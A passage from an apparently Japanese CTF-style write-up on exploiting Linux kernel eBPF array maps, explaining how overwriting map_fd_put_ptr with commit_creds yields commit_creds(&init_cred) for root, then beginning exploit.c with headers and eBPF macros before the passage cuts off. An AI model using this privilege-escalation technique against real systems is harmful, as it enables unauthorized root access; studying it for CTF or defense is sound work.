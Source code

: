 ```kernel/bpf/arraymap.c
	}
}
```
`xchg()`は、第一引数の指すポインタの指す先に第二引数の値を入れて、古い値を返す関数である。そしてその先で`map->ops->map_fd_put_ptr(old_ptr)`を呼んでくれる。つまり、`array->ptrs`の指す先に`&init_cred`を入れておいて、`map->ops->map_fd_put_ptr`を`commit_creds`に書き換えれば`commit_creds(&init_cred)`を直接呼んだことになる。やったね！

一つ注意として、`execve()`でシェルを呼んでしまうと、socketが解放されてその際にmapの解放が起きてしまう。テーブルを書き換えているためその時にOopsが起きて死んでしまう。よってシェルは`system("/bin/sh")`で呼ぶ。


# exploit
```exploit.c
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <linux/prctl.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>

// eBPF-utils
#define ARRSIZE(x) (sizeof(x) / sizeof((x)[0]))
#define BPF_REG_ARG1    BPF_REG_1
#define BPF_REG_ARG2    BPF_REG_2
#define BPF_REG_ARG3    BPF_REG_3
#define BPF_REG_ARG4    BPF_REG_4
#define BPF_REG_ARG5    BPF_REG_5
#define BPF_REG_CTX     BPF_REG_6
#define BPF_REG_FP      BPF_REG_10

#define BPF_LD_IMM64_RAW(DST, SRC, IMM)         \
  ((struct bpf_insn) {                          \
    .code  = BPF_LD | BPF_DW | BPF_IMM,         \
    .dst_reg = DST,                             \
    .src_reg = SRC,                             \
    .off   = 0,                                 \
    .imm   = (__u32) (IMM) }),                  \
  ((struct bpf_insn) {                          \
    .code  = 0, /* zero is reserved opcode */   \
    .dst_reg = 0,                               \
```